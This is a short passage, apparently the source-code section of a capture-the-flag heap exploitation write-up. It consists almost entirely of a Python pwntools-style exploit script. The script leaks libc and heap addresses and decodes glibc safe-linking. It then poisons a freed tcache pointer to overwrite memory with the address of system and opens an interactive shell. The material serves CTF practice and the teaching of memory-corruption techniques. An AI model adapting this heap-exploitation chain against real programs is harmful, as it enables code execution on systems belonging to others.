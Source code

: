 ```python
libc_base = libc_start_main_ret - 0x29d90
system = libc_base + 0xebcf8

success("main rbp : "+hex(main_rbp))
success("libc base : "+hex(libc_base))
success("system : "+hex(system))

assert (main_rbp >> 40 == 0x7f)
assert (libc_base >> 40 == 0x7f)

add(0, b"A" * 4)
add(1, b"A" * 4)
delete(0)
delete(1)
print()
ru("->")

heap_leak = u64(rl()[:-1].ljust(8, b"\x00"))
heap_fd = decrypt_safe_unlink(heap_leak)
heap_safe = heap_fd >> 12
success("heap leak : "+hex(heap_leak))
success("heap fd : "+hex(heap_fd))
success("heap_safe : "+hex(heap_safe))

add(15, 'A' * 8)
delete(15)
add(15, p64(main_rbp ^ heap_safe))

add(16, 'A' * 0x8)
add(17, p64(heap_fd+0x78) + p64(system))

sl(str(0))

ia()
```
{% endraw %}


